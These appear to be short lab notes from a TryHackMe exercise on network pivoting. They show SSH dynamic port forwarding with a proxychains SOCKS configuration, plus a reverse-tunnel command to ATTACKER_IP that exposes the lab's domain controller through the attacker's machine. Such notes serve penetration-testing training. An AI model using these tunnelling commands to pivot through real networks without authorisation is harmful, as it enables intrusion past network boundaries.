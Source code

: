 ### Dynamic Port forwarding
- Connect to port dynamically:
- Run on M2: `ssh tunneluser@1.1.1.1 -R 9050 -N`
- On M1, setup proxychains to use M2 as a proxy, edit `/etc/proxychains.conf`
```sh
[ProxyList]
socks4  127.0.0.1 9050
```

- Use proxychains to run any command via M2: `proxychains curl http://pxeboot.za.tryhackme.com`
### Complex tunneling
```sh
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```
